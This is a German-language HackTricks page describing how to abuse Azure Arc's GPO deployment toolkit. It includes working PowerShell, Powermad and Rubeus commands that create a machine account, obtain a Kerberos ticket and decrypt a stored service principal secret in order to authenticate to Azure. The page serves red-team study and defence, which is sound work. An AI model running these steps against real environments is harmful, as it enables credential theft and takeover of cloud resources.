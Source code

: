 # Az - Arc verwundbares GPO Bereitstellungsskript

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

### Identifizierung der Probleme

Azure Arc ermöglicht die Integration neuer interner Server (verbundene Domänenserver) in Azure Arc mithilfe der Group Policy Object-Methode. Um dies zu erleichtern, stellt Microsoft ein Bereitstellungstoolkit zur Verfügung, das für den Start des Onboarding-Verfahrens erforderlich ist. Im ArcEnableServerGroupPolicy.zip-Datei finden sich die folgenden Skripte: DeployGPO.ps1, EnableAzureArc.ps1 und AzureArcDeployment.psm1.

Beim Ausführen des DeployGPO.ps1-Skripts werden die folgenden Aktionen ausgeführt:

1. Erstellt die Azure Arc Servers Onboarding GPO innerhalb der lokalen Domäne.
2. Kopiert das EnableAzureArc.ps1 Onboarding-Skript in den vorgesehenen Netzwerkfreigabe, die für den Onboarding-Prozess erstellt wurde und auch das Windows-Installationspaket enthält.

Beim Ausführen dieses Skripts müssen Systemadministratoren zwei Hauptparameter angeben: **ServicePrincipalId** und **ServicePrincipalClientSecret**. Darüber hinaus sind weitere Parameter wie die Domäne, der FQDN des Servers, der die Freigabe hostet, und der Freigabename erforderlich. Weitere Details wie die Mandanten-ID, die Ressourcengruppe und andere notwendige Informationen müssen ebenfalls dem Skript bereitgestellt werden.

Ein verschlüsseltes Geheimnis wird im AzureArcDeploy-Verzeichnis auf der angegebenen Freigabe unter Verwendung der DPAPI-NG-Verschlüsselung generiert. Das verschlüsselte Geheimnis wird in einer Datei mit dem Namen encryptedServicePrincipalSecret gespeichert. Beweise dafür finden sich im DeployGPO.ps1-Skript, wo die Verschlüsselung durch den Aufruf von ProtectBase64 mit $descriptor und $ServicePrincipalSecret als Eingaben erfolgt. Der Descriptor besteht aus den SID der Domain Computer und Domain Controller Gruppen, wodurch sichergestellt wird, dass das ServicePrincipalSecret nur von den Sicherheitsgruppen der Domain Controller und Domain Computer entschlüsselt werden kann, wie in den Kommentaren des Skripts vermerkt.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Wir haben die folgenden Bedingungen:

1. Wir haben erfolgreich das interne Netzwerk durchdrungen.
2. Wir haben die Fähigkeit, ein Computer-Konto innerhalb von Active Directory zu erstellen oder die Kontrolle darüber zu übernehmen.
3. Wir haben einen Netzwerkfreigabe entdeckt, die das AzureArcDeploy-Verzeichnis enthält.

Es gibt mehrere Methoden, um ein Maschinenkonto in einer AD-Umgebung zu erhalten. Eine der häufigsten ist die Ausnutzung des Maschinenkonto-Quotas. Eine andere Methode besteht darin, ein Maschinenkonto durch verwundbare ACLs oder verschiedene andere Fehlkonfigurationen zu kompromittieren.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Sobald ein Maschinenkonto erlangt wurde, ist es möglich, sich mit diesem Konto zu authentifizieren. Wir können entweder den Befehl runas.exe mit dem netonly-Flag verwenden oder Pass-the-Ticket mit Rubeus.exe nutzen.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Indem wir das TGT für unser Computer-Konto im Speicher haben, können wir das folgende Skript verwenden, um das Geheimnis des Dienstprinzipals zu entschlüsseln.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternativ können wir [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG) verwenden.

An diesem Punkt können wir die verbleibenden Informationen sammeln, die benötigt werden, um eine Verbindung zu Azure herzustellen, aus der ArcInfo.json-Datei, die im selben Netzwerkfreigabe wie die Datei encryptedServicePrincipalSecret gespeichert ist. Diese Datei enthält Details wie: TenantId, servicePrincipalClientId, ResourceGroup und mehr. Mit diesen Informationen können wir Azure CLI verwenden, um uns als der kompromittierte Dienstprinzipal zu authentifizieren.

## References

* [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
